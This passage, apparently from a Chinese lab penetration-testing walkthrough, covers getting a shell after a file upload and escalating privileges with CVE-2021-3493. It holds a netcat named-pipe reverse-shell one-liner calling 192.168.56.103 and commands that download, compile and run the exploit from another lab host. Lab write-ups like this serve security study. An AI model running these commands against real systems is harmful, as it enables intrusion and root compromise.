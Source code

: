 [![](assets/1699406763-fc59422a7edc758fdd866c81ab972596.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103933-e271d624-7d16-1.png)

上传成功后，kali 成功拿到 shell

[![](assets/1699406763-d281de7f126e899d32cac628ba44a845.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103956-f007e9c2-7d16-1.png)

这里还可以上传一个 php 一句话木马，使用蚁剑进行连接，由于蚁剑的终端不稳定，故可以在终端上执行反弹 shell

```bash
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f"
```

## 提权

### CVE-2021-3493 提权

这里可以使用[CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)进行提权

```bash
cd /tmp
wget http://192.168.56.105:8000/cve-2021-3493.c
gcc cve-2021-3493.c -o exp
chmod 777 exp
./exp
```
